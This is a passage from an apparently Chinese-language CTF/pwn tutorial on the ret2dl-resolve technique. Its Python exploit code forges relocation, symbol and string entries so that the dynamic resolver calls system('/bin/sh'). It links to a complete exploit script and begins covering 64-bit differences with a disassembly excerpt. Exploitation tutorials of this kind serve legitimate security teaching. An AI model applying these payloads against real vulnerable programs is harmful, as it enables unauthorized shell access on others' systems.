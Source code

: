 构造 rop chain 放置好构造的数据：

{% highlight python %}
```python
dynsym_addr = 0x80481d8
dynstr_addr = 0x8048278
rel_plt_addr = 0x8048330
dynamic_addr = 0x8048f14

# fake

base_addr = bss_addr+0x20
reloc_arg = base_addr-rel_plt_addr
dynsym_off = ((base_addr+0x8-dynsym_addr)/0x10) << 0x8| 0x7
system_off = base_addr+0x18-dynstr_addr
bin_sh_addr = base_addr+0x20

payload = p8(0)*0x70
payload += p32(read_plt)
payload += p32(pppop_ret)
payload += p32(0)
payload += p32(base_addr)
payload += p32(0x28)
payload += p32(plt_addr)    # jump to dl_runtime_resolve
payload += p32(reloc_arg)   # reloc_arg
payload += p32(read_plt)
payload += p32(0)
payload += p32(bin_sh_addr)
payload += p8(0)*(0x100-len(payload))
...
```
{% endhighlight %}

然后调用 `.plt` 起始位置处的代码使用伪造的参数执行 dl_runtime_resolve 查找 system 函数地址放置在 `.got.plt`
上任意函数处，最后调用该函数的 plt 执行 system。

伪造数据：

{% highlight python %}
...
payload = p32(read_got)
payload += p32(dynsym_off)
payload += p32(system_off)
payload += p32(0)*0x2
payload += p32(0x12)
payload += "system\x00\x00"
payload += "/bin/sh\x00"
{% endhighlight %}

完整 exp 在 [exp32.py](https://github.com/0x3f97/pwn/blob/master/ret2dl-resolve/exp32.py)

64位下的 dl-runtime-resolve 与 32位的不同，一个是 `reloc_arg` 由偏移量变为 index 值，查看 `.plt` 代码：

```c
   0x400510:	push   QWORD PTR [rip+0x200af2]        # 0x601008
   0x400516:	jmp    QWORD PTR [rip+0x200af4]        # 0x601010
...

=> 0x400540 <setbuf@plt>:	jmp    QWORD PTR [rip+0x200ae2]        # 0x601028
 | 0x400546 <setbuf@plt+6>:	push   0x2
 | 0x40054b <setbuf@plt+11>:	jmp    0x400510

```

